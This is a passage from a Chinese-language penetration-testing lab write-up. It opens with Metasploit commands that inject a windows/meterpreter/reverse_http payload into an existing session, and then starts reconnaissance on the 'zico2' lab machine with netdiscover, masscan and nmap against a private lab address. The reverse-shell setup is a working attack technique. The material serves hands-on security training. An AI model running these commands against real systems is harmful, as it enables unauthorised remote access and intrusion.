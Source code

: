  payload选择 `windows/meterpreter/reverse_http`

msf操作：

```shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set session 1  # 这里为msf的session
set lhost eth0
set lport 4445
set disablepayloadhandler 1
run
```



# 第5次 zico2

# 1.信息收集

## 1.1 主机发现

```
netdiscover -r 192.168.81.0/24
```

![image-20220315144404186](https://gitee.com/xxb667/img/raw/master/img/image-20220315144404186.png)

## 1.2 端口扫描

```
masscan --rate=1000 -p 0-65535 192.168.81.142
```

发现4个端口

```
22
80
111
53311
```

![image-20220315145631266](https://gitee.com/xxb667/img/raw/master/img/image-20220315145631266.png)

## 1.3 端口服务识别

```
nmap -sV -T4 -O 192.168.81.142 -p 22,80,111,53311
```

![image-20220315150825598](https://gitee.com/xxb667/img/raw/master/img/image-20220315150825598.png)
